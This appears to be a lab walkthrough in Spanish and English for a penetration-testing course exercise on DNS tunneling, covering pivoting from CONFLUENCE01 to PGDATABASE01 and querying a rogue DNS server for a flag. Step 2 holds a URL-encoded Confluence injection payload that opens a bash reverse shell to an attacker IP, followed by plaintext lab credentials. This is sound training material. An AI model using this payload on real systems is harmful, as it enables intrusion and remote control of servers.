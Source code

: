 # Walk: Tunneling Through Deep Packet Inspection - DNS Tunneling Fundamentals - VM Group 

## Fecha: 01/04/2025
## Host: FELINEAUTHORITY (DNS server malicioso) 192.168.xxx.7 | CONFLUENCE01 (Pivote) 192.168.xxx.63 | MULTISERVER03 (DNS server) 192.168.xxx.64 | PGDATABASE01 10.4.xxx.215

## Objetivo
Follow the steps in this section. From CONFLUENCE01 or PGDATABASE01, make a TXT record request for give-me.cat-facts.internal, using MULTISERVER03 as the DNS resolver. What's the value of the TXT record?
## Herramientas
1. dnsmasq
2. nslookup
3. resolvectl

## Procedimiento y comandos
#### Paso 1: Configuramos el Servidor DNS
1. Nos conectamos por ssh al servidor DNS malicioso:
```
ssh kali@192.168.112.7
password: 7he_C4t_c0ntro11er
```
2. Accedemos a nuestra maquina pivote:
>Con el receptor nc escuchando en el puerto 4444, y el servicio ssh activo en nuestra maquina kali.
```
curl -v http://192.168.xxx.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.xxx/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
3. Una vez dentro generamos un ssh port forwarding con PGDATABASE01
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `ssh database_admin@10.4.xxx.215`
- `database_admin@10.4.xxx.215's password: sqlpass123`

```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'   
$ ssh database_admin@10.4.xxx.215
ssh database_admin@10.4.xxx.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.xxx.215 (10.4.xxx.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.xxx.215's password: sqlpass123

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 20 Mar 2025 02:44:28 AM UTC

  System load:  0.0               Processes:               233
  Usage of /:   80.5% of 6.79GB   Users logged in:         0
  Memory usage: 15%               IPv4 address for ens192: 10.4.xxx.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.xxx.254

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 16 21:49:42 2023 from 10.4.50.63
database_admin@pgdatabase01:~$
```
4. Configuramos FELINEAUTHORITY
- `sudo dnsmasq -C dnsmasq.conf -d`
```
kali@felineauthority:~/dns_tunneling$ sudo dnsmasq -C dnsmasq.conf -d
[sudo] password for kali: 
dnsmasq: started, version 2.89 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq: warning: no upstream servers configured
dnsmasq: cleared cache
```
En otro shell en FELINEAUTHORITY, configuraremos tcpdump para escuchar en la interfaz ens192 los paquetes DNS en UDP/53, usando el filtro de captura del puerto UDP 53
- `sudo tcpdump -i ens192 udp port 53`
5.  confirmemos la configuración DNS de PGDATABASE01:
```
database_admin@pgdatabase01:~$ resolvectl status
...             

Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.112.64
         DNS Servers: 10.4.112.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.112.64
         DNS Servers: 10.4.112.64
```
Identificamos MULTISERVER03 como servidor DNS,esto queire decir que PGDATABASE01 consultará a MULTISERVER03 cada vez que necesite resolver un nombre de dominio.
> usemos nslookup para realizar una solicitud DNS a exfiltrated-data.feline.com
```
database_admin@pgdatabase01:~$ nslookup exfiltered-data.feline.corp
nslookup exfiltered-data.feline.corp
Server:         127.0.0.53
Address:        127.0.0.53#53

** server can't find exfiltered-data.feline.corp: NXDOMAIN
```
nuestra consola tcpdump captura paquetes:
```
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
22:03:44.036283 IP 192.168.112.7.38007 > 192.168.112.254.domain: 48873+ A? 0.debian.pool.ntp.org. (39)
...
22:33:50.440316 IP 192.168.112.254.domain > 192.168.112.7.37586: 20781 NXDomain 0/0/0 (45)
22:40:36.286247 IP 192.168.112.7.44379 > 192.168.112.254.domain: 4638+ A? 0.debian.pool.ntp.org. (39)
22:40:36.286260 IP 192.168.112.7.44379 > 192.168.112.254.domain: 44060+ AAAA? 0.debian.pool.ntp.org. (39)
22:40:36.286591 IP 192.168.112.254.domain > 192.168.112.7.44379: 44060 0/0/0 (39)
22:40:36.288223 IP 192.168.112.254.domain > 192.168.112.7.44379: 4638 4/0/0 A 167.114.93.151, A 51.222.111.13, A 173.183.146.26, A 199.182.221.110 (103)
22:41:17.286497 IP 192.168.112.7.47607 > 192.168.112.254.domain: 20764+ A? 1.debian.pool.ntp.org. (39)
22:41:17.286516 IP 192.168.112.7.47607 > 192.168.112.254.domain: 20766+ AAAA? 1.debian.pool.ntp.org. (39)
22:41:17.288454 IP 192.168.112.254.domain > 192.168.112.7.47607: 20766 0/1/0 (94)
...
```


#### Paso 2: Obtenemos el flag:
```
database_admin@pgdatabase01:~$ nslookup -type=txt give-me.cat-facts.internal
nslookup -type=txt give-me.cat-facts.internal
Server:         127.0.0.53
Address:        127.0.0.53#53

Non-authoritative answer:
give-me.cat-facts.internal      text = "OS{6aadc********************************73cad}"

Authoritative answers can be found from:

database_admin@pgdatabase01:~$
```
